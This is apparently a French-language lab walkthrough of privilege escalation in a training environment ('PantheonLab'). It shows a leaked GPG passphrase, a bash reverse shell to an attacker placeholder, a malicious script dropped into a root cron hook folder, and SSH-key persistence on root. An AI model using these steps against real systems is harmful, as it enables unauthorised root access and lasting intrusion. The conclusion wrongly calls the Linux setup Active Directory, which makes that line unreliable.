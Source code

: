# Élévation de Privilèges

## Introduction

Cette section détaille les techniques d'élévation de privilèges exploitées dans l'environnement PantheonLab.

## Méthodes d'Élévation de Privilèges

### 1. Exploitation des Vulnérabilités Locales

Dans cet environnement, l'utilisateur `hera` dispose de droits suffisants pour exploiter un mécanisme d'élévation de privilèges automatisé.

#### Contexte

L'utilisateur `hera` appartient au groupe `juno`, ce qui lui confère certains droits supplémentaires sur le système. On peut le vérifier avec la commande suivante :

```bash
groups hera
```

Le dossier `/opt/hooks` possède des droits d'accès pour le groupe `juno`, permettant ainsi à tout membre de ce groupe de modifier ou d'ajouter des fichiers dans ce dossier :

```bash
ls -ld /opt/hooks
```

Ce dossier contient des scripts automatiquement exécutés par l'utilisateur `root` via une tâche cron toutes les minutes. Cependant, ces scripts sont chiffrés avec GPG, ce qui semble empêcher une modification directe.

#### Analyse du mécanisme

En listant le contenu de `/opt/hooks`, on remarque la présence de scripts chiffrés (extension `.gpg`). Un examen plus approfondi du système révèle que le mot de passe utilisé pour le chiffrement GPG est stocké en clair dans le fichier `~/.bash_history` de l'utilisateur `hera` :

```bash
cat ~/.bash_history
```

#### Exploitation

1. **Préparation de l'écoute sur la machine d'attaque** :
   Avant de déposer le script, il faut lancer un listener netcat sur sa propre machine pour recevoir la connexion :

   ```bash
   nc -lvnp <PORT>
   ```

2. **Création d'un reverse shell** :
   On écrit un script bash qui ouvre un reverse shell vers la machine d'attaque :

   ```bash
   bash -i >& /dev/tcp/<IP_ATTAQUANT>/<PORT> 0>&1
   ```

3. **Chiffrement du script** :
   On chiffre ce script avec GPG en utilisant le mot de passe récupéré. Pour automatiser et sécuriser le processus, on peut stocker temporairement le mot de passe dans un fichier protégé, puis le supprimer après usage :

   ```bash
   echo 'M0n@mourP0urZ3u$!2025' > pass.txt
   chmod 600 pass.txt
   gpg --batch --yes --passphrase-file pass.txt --symmetric reverseshell.sh
   rm pass.txt
   ```

   Cela génère un fichier `reverseshell.sh.gpg` chiffré avec le mot de passe contenu dans `pass.txt`.

4. **Dépôt dans /opt/hooks** :
   On place le fichier chiffré dans `/opt/hooks` :

   ```bash
   mv reverseshell.sh.gpg /opt/hooks/
   ```

5. **Attente de l'exécution** :
   Il suffit alors d'attendre une minute pour que la tâche cron exécutée par root déchiffre et lance le script, ouvrant ainsi un shell root sur la machine d'attaque.

#### Résumé

Ce scénario illustre l'importance de ne jamais stocker de mots de passe sensibles en clair et de bien contrôler les scripts exécutés automatiquement avec des privilèges élevés.

### 2. Techniques de Persistance

Après avoir obtenu un accès root, la méthode de persistance la plus simple et discrète consiste à ajouter sa propre clé publique SSH dans le fichier `~/.ssh/authorized_keys` de l'utilisateur root :

```bash
echo "<clé_publique>" >> /root/.ssh/authorized_keys
```

Cela permet de se reconnecter facilement en tant que root sans avoir besoin du mot de passe.

## Conclusion

L'élévation de privilèges est une étape cruciale dans l'exploitation d'un environnement Active Directory. 
